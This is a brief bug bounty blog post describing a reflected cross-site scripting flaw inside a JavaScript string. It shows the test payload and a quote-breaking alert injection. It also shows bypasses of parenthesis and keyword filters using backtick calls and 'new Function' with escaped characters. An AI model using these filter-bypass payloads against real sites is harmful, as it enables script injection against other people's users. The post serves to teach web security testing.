 +++
title = "An XSS Story"
date = "2018-08-14"
description = ""
[extra]
cover.alt = "An XSS Story"
+++

Last night I stumbled across an XSS in a bug bounty program, this was quite fun to exploit.

<!--more-->

A little bit of context, the URL was as follows:

```bash
https://bugbounty.program/dir/page.ext?param1=SOMETHING&param2=SOMETHINGELSE
```

Going thru the page code we can clearly see a reflection in a javascript tag, around the entry "subject".

```javascript
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "SOMETHING",
    [...]
}
```

Let's try with my favorite test payload `AAAA"<i>'BBBB(1)` and see how the characters are escaped.

```javascript
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA" 'BBBB",
    [...]
}
```

The tag was stripped but the double quote isn't escaped. We can say goodbye to the infamous `</script><script>alert(1)` payload. Let's try to bypass the filter with a little bit of Javascript magic :D

In JS if we have a string we can try to add a function and it will be executed, a simple alert(1) should do the work. Our payload is now `AAAA"+alert(1)+"BBBB`

```bash
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA"+alert1+"BBBB",
    [...]
}
```

Damn, it seems that our parenthesis were removed, let's try with an alternative way to trigger an alert using the backticks : `AAAA"+alert\`1\`+"BBBB`, this trick works on Firefox and Chrome/Opera in their latest version.

```bash
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA"+alert`1`+"BBBB",
    [...]
}
```

Yay our alert(1) popped :D, let's now imagine more protections, only to do some JS magic.
We can try to `eval()` our `alert()` using the backticks and some escape characters.
What if eval and alert are banned keywords ?
We can still use the `New Function` !

```javascript
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA"+new Function`al\ert\`XSS\``+"BBBB",
    [...]
}
```

In Javascript we can escape any character and they will be treated as the original character if it doesn't exist.

```javacript
\a = a
\e = e
\l = l
\r = \r because it's a new line
\t = \t because it's a tab
```

That's all folks !